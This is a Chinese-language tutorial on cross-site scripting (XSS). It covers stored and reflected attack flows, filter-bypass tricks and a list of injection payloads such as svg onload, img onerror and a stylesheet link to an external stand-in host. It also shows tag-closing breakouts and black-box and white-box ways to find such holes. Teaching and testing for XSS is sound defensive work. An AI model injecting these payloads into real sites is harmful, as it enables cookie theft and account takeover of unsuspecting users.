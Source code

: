 # XSS漏洞详解

跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页面时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击。危害如下：

```mermaid
graph TD;

XSS-->|攻击者JS水平决定攻击效果|针对用户
XSS-->|攻击者JS水平决定攻击效果|针对WEB服务
针对用户-->窃取cookie
针对用户-->网络钓鱼
针对用户-->放马挖矿
针对用户-->广告刷流量
针对WEB服务-->篡改页面
针对WEB服务-->劫持后台
针对WEB服务-->传播蠕虫
针对WEB服务-->内网扫描
```

## 流程

### 存储型

```sequence
participant 黑客
participant 用户
participant 正常服务器
participant 恶意服务器

黑客->正常服务器:发现正常服务器的XSS漏洞
黑客->正常服务器:在正常页面上构造XSS脚本并提交
用户->正常服务器:登录系统后访问页面请求
正常服务器-->用户:返回带有XSS脚本的页面
用户->恶意服务器:用户浏览器解析了XSS脚本，并将搜集信息发送
黑客->恶意服务器:获取搜集到的用户的信息
```

在个人信息或发表文章等地方插入代码后提交，如没有过滤或过滤不严，那这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。该漏洞是持久化的，且不需要与用户进行交互。 存储型XSS比较危险，容易造成蠕虫、盗窃cookie等。攻击过程如下：

Bob拥有一个Web站点，该站点允许用户发布信息/浏览已发布的信息。

+ Alice检测到站点存在存储型的XSS漏洞。他在上面发布一个带有恶意脚本的热点信息，该热点信息存储在了站点服务器的数据库中，然后吸引其它用户来阅读该热点信息
+ Bob浏览该信息之后，恶意脚本在Bob的浏览器中执行
+ 此脚本盗窃敏感信息(cookie、帐号信息等信息)，然后在Bob完全不知情的情况下将这些信息发送给Alice
+ Alice利用获取到的cookie就可以Bob的身份登录B站点。如果脚本的功更强大的话，Alice还可以对Bob的浏览器做控制并进一步利用漏洞控制

### 反射型

```sequence
participant 黑客
participant 用户
participant 正常服务器
participant 恶意服务器

黑客->正常服务器:发现正常服务器的XSS漏洞
黑客->用户:发送带有XSS脚本的链接
用户->正常服务器:点击了恶意链接，进行访问请求
正常服务器-->用户:返回带有XSS脚本的页面
用户->恶意服务器:用户浏览器解析了XSS脚本，并将搜集信息发送
黑客->恶意服务器:获取搜集到的用户的信息
```

通过构造恶意链接能触发链接中的脚本执行，它需欺骗用户自己去点击链接才能触发XSS代码(服务器中没有这样的页面和内容)。一般容易出现在搜索页面。该漏洞是非持久化的，且需要与用户进行交互。 反射型XSS大多数是用来盗取用户的Cookie信息。攻击过程如下：

+ Alice发现站点存在反射性的XSS漏洞，利用网站的反射型XSS漏洞编写了一个exp，做成链接的形式，并利用各种手段诱使站点的用户Bob点击
+ Bob在登录到B站点后，点击了Alice提供的恶意链接，恶意脚本在Bob的浏览器中执行
+ 此脚本盗窃敏感信息(cookie、帐号信息等信息)，然后在Bob完全不知情的情况下将这些信息发送给Alice
+ Alice利用获取到的cookie就可以Bob的身份登录B站点。如果脚本的功更强大的话，Alice还可以对Bob的浏览器做控制并进一步利用漏洞控制

## 对抗

一般程序员都会用一些函数将构成xss代码的一些关键字符给过滤了。可是道高一尺魔高一丈，虽然过滤了，但还可以进行过滤绕过，以达到XSS攻击的目的。主要方法如下：

+ 通过更改标签，如大小写替换、空格/回车/Tab分割、标签内含`<img src=1 οnerrοr=alert('hack')>`
+ 通过标签属性，如src加载、onload事件
+ 通过重新编码，如部分或全部的HEX编码、ASCII编码

更多绕过见文章[《XSS过滤绕过速查表》](https://www.freebuf.com/articles/web/153055.html)，实践见文章[《印尼电商平台Tokopedia的反射型XSS漏洞》](https://www.freebuf.com/vuls/207025.html)。

XSS的攻击载荷常见的有如下地点：

```js
// 以下所有标签的>都可以用//代替， 例如<script>alert(1)</script//
<link rel="stylesheet" href="http://www.xxx.com/atack.css"></link>

<script src="..."></script>

<style onload=alert(1)></style>
<style>@import ‘javascript:alert(‘hack‘);‘</style>

<svg onload=alert(1)/>
<svg onload=alert(1)///

<img src = "javascript:alert(‘hack‘);"/>
<img src=1 onerror=alert("hack")/>
<img src=1 onerror=alert("hack")///

<video src = "javascript:alert(‘hack‘);"/>
<video src=1 onloadstart=alert(1)/>
```

XSS可以插入的地方有用户输入作为script标签内容、用户输入作为HTML标签名、用户输入作为HTML标签的属性值、用户输入作为HTML注释内容、直接插入到CSS里。举例如下：

```
#用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过
<!-- 用户输入 -->
<!-- --><script>alert('hack')</script><!-- -->

#用户输入作为标签名，导致攻击者可以进行闭合绕过
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />

#用户输入作为标签属性值，导致攻击者可以进行闭合绕过
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>

#用户输入作为标签属性名，导致攻击者可以进行闭合绕过
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>

#用户输入作为CSS内容，导致攻击者可以进行闭合绕过
<style>用户输入<style>
<style></style><script>alert('hack')</script><style></style>
```

## 挖掘

### 黑盒测试

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如URL本身、URL的每一个参数、表单、搜索框等。常见业务场景如下：

+ 重灾区：评论区、留言区、个人信息、订单信息等等
+ 针对型：网页即时通讯、站内信、私信、意见反馈等
+ 存在风险：搜索框、当前目录、图片属性等

### 白盒测试

关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手：

大多数程序会对接收参数封装在公共函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等。

可搜索类似`echo`这样的输出语句，跟踪输出的变量是从哪里来的，是否能控制。如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。

PHP中常见的接收参数的方式有`$_GET`、`$_POST`、`$_REQUEST`等等，可以搜索所有接收参数的地方，然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。

